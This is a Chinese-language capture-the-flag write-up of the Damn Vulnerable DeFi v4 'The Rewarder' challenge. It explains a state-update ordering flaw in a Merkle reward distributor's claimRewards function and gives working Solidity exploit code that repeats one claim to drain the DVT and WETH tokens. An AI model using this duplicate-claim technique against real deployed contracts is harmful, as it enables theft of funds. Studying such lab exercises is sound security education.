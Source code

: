 # Damn Vulnerable DeFi v4 - the rewarder

- https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/

## check condition

盡可能清空 distributor 的代幣，其持有的 dvt token 和 weth 需要少於一定值

```solidity
assertLt(
    dvt.balanceOf(address(distributor)),
    1e16,
    "Too much DVT in distributor"
);

assertLt(
    weth.balanceOf(address(distributor)),
    1e15,
    "Too much WETH in distributor"
);
```

將清空的資金轉移到 recovery

```solidity
assertEq(
    dvt.balanceOf(recovery),
    TOTAL_DVT_DISTRIBUTION_AMOUNT -
        ALICE_DVT_CLAIM_AMOUNT -
        dvt.balanceOf(address(distributor)),
    "Not enough DVT in recovery account"
);
assertEq(
    weth.balanceOf(recovery),
    TOTAL_WETH_DISTRIBUTION_AMOUNT -
        ALICE_WETH_CLAIM_AMOUNT -
        weth.balanceOf(address(distributor)),
    "Not enough WETH in recovery account"
);
```

## break

問題主要源於 `claimRewards()` 沒有以正確的執行順序去執行 `_setClaimed` 來更新狀態 (寫在 comment)：

```solidity
function claimRewards(Claim[] memory inputClaims, IERC20[] memory inputTokens) external {
    // init with address(0)
    IERC20 token;

    // 試想 i = 0 的情況
    for (uint256 i = 0; i < inputClaims.length; i++) {
       inputClaim = inputClaims[i];

        if (token != inputTokens[inputClaim.tokenIndex]) {
            // address(0) == address(0)，_setClaimed 被跳過了
            if (address(token) != address(0)) {
                if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
            }
            token = inputTokens[inputClaim.tokenIndex];
            bitsSet = 1 << bitPosition;
            amount = inputClaim.amount;
        } else {
            bitsSet = bitsSet | 1 << bitPosition;
            amount += inputClaim.amount;
        }

        // 等到最後一個 element 才會呼叫 _setClaimed
        if (i == inputClaims.length - 1) {
            if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
        }
    }
}
```

所以當 inputClaims 為 [tokenA, tokenA, tokenA]，會一直執行到 `i = length - 1` 才會執行 `_setClaimed`。

### solution

仿照 Alice 領取 reward 的寫法，然後增加 inputClaims 的長度即可：

#### 1. get player address

印出 player address，並從 json 檔找出其在 merkle tree 的 index

```solidity
console.log(player) // 0x44E97aF4418b7a17AABD8090bEA0A471a366305C

uint256 player_dvt_amount_index_188 = 11524763827831882;
uint256 player_weth_amount_index_188 = 1171088749244340;
```

#### 2. 建立 claim 需要的參數

```solidity
// 計算領完 dvt 和 weth 需要多少個 Claim struct
uint256 dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / player_dvt_amount_index_188;
uint256 wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / player_weth_amount_index_188;
uint256 totalTxCount = dvtTxCount + wethTxCount;

// load leaves
bytes32[] memory dvtLeaves = _loadRewards("/lib/damn-vulnerable-defi/test/the-rewarder/dvt-distribution.json");
bytes32[] memory wethLeaves = _loadRewards("/lib/damn-vulnerable-defi/test/the-rewarder/weth-distribution.json");

// create claim
Claim[] memory claims = new Claim[](totalTxCount);

for (uint256 i = 0; i < totalTxCount; i++) {
    if (i < dvtTxCount) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_dvt_amount_index_188,
            tokenIndex: 0,
            proof: merkle.getProof(dvtLeaves, 188)
        });
    } else {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_weth_amount_index_188,
            tokenIndex: 1,
            proof: merkle.getProof(wethLeaves, 188)
        });
    }
}
```

#### 3. trigger `claimRewards` and send to recovery

```solidity
distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

dvt.transfer(recovery, dvt.balanceOf(player));
weth.transfer(recovery, weth.balanceOf(player));
```
